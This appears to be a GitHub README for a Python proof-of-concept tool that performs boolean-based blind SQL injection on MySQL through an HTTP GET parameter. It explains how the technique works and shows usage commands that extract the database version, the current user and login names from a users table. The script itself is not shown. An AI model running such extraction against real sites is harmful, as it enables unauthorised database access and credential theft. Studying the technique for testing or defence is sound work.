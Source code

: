 # mysql_bb
Boolean-based blind SQL injection exploit for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP GET URI. Basic concept is the assumption that True and False answers has different Content-Length header and True>False.
## Usage example
Be sure you have no errors in SQL syntax, otherwise it may lead to false negative results. No ending semicolon is needed since given query will be inserted as subquery into substring() MySQL function.
```bash
python3 mysql_bb_poc.py "http://localhost?param=" "select version()"
5.5.47-0+deb8u1
(+) done!
python3 mysql_bb_poc.py "http://localhost?param=" "select user()"
root@localhost
(+) done!
python3 mysql_bb_poc.py "http://localhost?param=" "select login from users"
admin
(+) done!
```
